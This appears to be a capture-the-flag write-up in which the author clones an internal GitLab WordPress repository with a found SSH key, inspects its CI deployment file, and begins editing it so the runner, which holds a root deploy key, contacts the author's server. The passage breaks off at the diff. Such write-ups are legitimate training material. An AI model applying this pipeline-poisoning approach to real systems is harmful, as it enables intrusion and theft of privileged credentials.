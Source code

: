 Next, let's clone the repo using ssh. This should give us advanced privileges.

```
grinchum-land:~$ git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git new
Cloning into 'new'...
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '/home/samways/.ssh/id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "/home/samways/.ssh/id_rsa": bad permissions
git@gitlab.flag.net.internal: Permission denied (publickey).
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
```
```
grinchum-land:~$ chmod 600 ~/.ssh/id_rsa 
grinchum-land:~$ git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git new
Cloning into 'new'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 20.30 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
```

Let's inspect the .gitlab-ci.yml file as this controls the CI CD pipeline. The runner has access to the private key for the root user at wordpress.flag.net.internal which it uses to copy website files.
```
grinchum-land:~$ ls
wordpress.flag.net.internal
grinchum-land:~$ cd wordpress.flag.net.internal/
grinchum-land:~/wordpress.flag.net.internal$ ls -a
.     .gitlab-ci.yml  readme.html      wp-blog-header.php    wp-config.php  wp-includes        wp-login.php     wp-signup.php
..    index.php       wp-activate.php  wp-comments-post.php  wp-content     wp-links-opml.php  wp-mail.php      wp-trackback.php
.git  license.txt     wp-admin         wp-config-sample.php  wp-cron.php    wp-load.php        wp-settings.php  xmlrpc.php
grinchum-land:~/wordpress.flag.net.internal$ cat .gitlab-ci.yml 
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
grinchum-land:~/wordpress.flag.net.internal$
```
I spun up an HTTP server using `python3 -m http.server` and modified the file like so, to get the gitlab runner to execute an HTTP server to my server, but that didn't work.
```
diff --git a/.gitlab-ci.yml b/.gitlab-ci.yml
index 02a0dde..795d1bd 100644
--- a/.gitlab-ci.yml
+++ b/.gitlab-ci.yml
@@ -5,4 +5,4 @@ deploy-job:
   stage: deploy 
```